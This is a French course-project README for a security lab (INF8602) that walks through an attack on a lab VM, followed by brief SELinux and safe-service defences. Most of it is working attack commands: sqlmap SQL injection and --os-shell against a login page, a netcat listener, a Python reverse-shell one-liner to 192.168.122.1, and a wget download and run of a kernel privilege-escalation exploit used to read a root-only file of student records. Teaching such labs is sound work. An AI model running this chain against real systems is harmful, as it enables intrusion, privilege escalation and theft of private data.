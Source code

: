 # INF8602 – Projet de session

## Prérequis :

Ajouter la ligne suivante dans ``/etc/hosts`` :
```
IP_DE_LA_VM  inf8602.local
```

## Attaque
- Accéder à la page : http://inf8602.local
- Se connecter avec : ``ebelanger``, ``motdepasse``

### Exploration

Exploration à l'aide de sqlmap :
```bash
sqlmap --flush-session -u "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST
```

On constate que le serveur est vulnérable.

Listons les tables :

```bash
sqlmap -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST --dump -T users --stop 5
```

Les NAS ne sont pas là...

### Obtention d'un shell

On souhaite obtenir un shell :
```bash
sqlmap -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --dbms=postgresql --method POST --no-cast --os-shell
```

On lance ensuite, dans un autre teminal :
```bash
nc -l -p 8080 -vvv
```

Puis on lance la commande suivante dans le shell sqlmap :
```bash
python3 -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.122.1",8080));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

**Le shell est obtenu!**

### Vulnérabilité du système d'exploitation

Il faut montrer que l'utilisateur est ``postgress`` et que les NAS sont dans ``/secure_folder/nas.txt`` :
```bash
whoami
ls -lsa /
uname -a
```

On constate que seul root peut accéder à ``/secure_folder/nas.txt``. On constate également que le kernel (``5.11.0-44-generic``) fait partie de la liste suivante :
```c
struct kernel_info kernels[] = {
    {"5.11.0-22-generic #23~20.04.1-Ubuntu", 0x33ceb0, 0x166c2c0},
    {"5.11.0-25-generic #27~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-27-generic #29~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-34-generic #36~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-36-generic #40~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-37-generic #41~20.04.2-Ubuntu", 0x33eae0, 0x166c340},
    {"5.11.0-38-generic #42~20.04.1-Ubuntu", 0x33f400, 0x166c340},
    {"5.11.0-40-generic #44~20.04.2-Ubuntu", 0x33f980, 0x1c6c2e0},
    {"5.11.0-41-generic #45~20.04.1-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-43-generic #47~20.04.2-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-44-generic #48~20.04.2-Ubuntu", 0x3400b0, 0x1c6c2e0},
    {"5.13.0-21-generic #21~20.04.1-Ubuntu", 0x34adc0, 0x1e6e060},
    {"5.13.0-22-generic #22~20.04.1-Ubuntu", 0x34b280, 0x1e6e060},
    {"5.13.0-23-generic #23~20.04.2-Ubuntu", 0x34b270, 0x1e6e0a0},
    {"5.13.0-25-generic #26~20.04.1-Ubuntu", 0x34b330, 0x1e6e0a0},
};
```

Il est possible de réaliser une élévation de privilège :
```bash
wget https://github.com/bourquejulien/INF8602-Projet/raw/main/SELinux/attack/exploit
chmod +x exploit
./exploit
bash -p
```

Il est maintenant possible d'accéder au NAS :
```bash
whoami
cat /secure_folder/nas.csv
```

## Défense

Pour relance la DB (au besoin, tuer ``./exploit`` au préalable) :
```bash
sudo systemctl restart postgresql
```

**Plusieurs défenses existent.**

Pour éviter les injections SQL :
```bash
sudo systemctl stop inf8602
sudo systemctl start inf8602-safe
```

Pour éviter l'exécution de l'attaque :
```bash
sudo systemctl stop inf8602-safe
sudo systemctl start inf8602

sestatus
sudo setenforce 1
sestatus
```

**Relancer l'attaque.**
